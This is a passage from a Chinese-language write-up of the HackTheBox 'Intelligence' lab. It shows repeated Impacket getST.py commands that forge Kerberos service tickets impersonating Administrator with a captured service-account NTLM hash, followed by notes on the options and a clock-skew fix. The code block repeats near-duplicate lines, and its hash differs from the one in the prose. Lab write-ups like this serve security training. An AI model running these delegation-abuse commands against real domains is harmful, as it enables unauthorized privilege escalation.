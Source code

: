 ```plain
getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8  -impersonate administrator intelligence.htb/svc_int

getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes : 87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate administrator intelligence.htb/svc_int

svc_int$:::87c12d4a0641b2b17fb5620cc2db2ca8

getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate Administrator
getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8  -impersonate Administrator


getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate administrator intelligence.htb/svc_int
 getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate Administrator
```

## 获取门票

使用getST.py来制作票据。我需要传递以下选项：  
● -dc-ip 10.10.10.248  
● -spn www/dc.intelligence.htb- SPN（见下文）  
● -hashes :5e47bac787e5e1970cf9acdb5b316239- 我之前收集的NTLM  
● -impersonate administrator- 我想要票的用户  
● intelligence.htb/svc\_int- 我正在运行的帐户  
要获取 SPN，请在 Bloodhound 中 svc\_int 用户的节点信息 -> 节点属性部分中获取：

[![](assets/1701071906-2a0b27166a137aa6cc24224b92c76768.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213218-0deff20c-8b97-1.png)

## 修复时间偏差

当我运行它时，它提示因为时间偏差而关闭。

[![](assets/1701071906-db7aaed188c1487039c505c1fa407801.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213231-15f1fbbc-8b97-1.png)
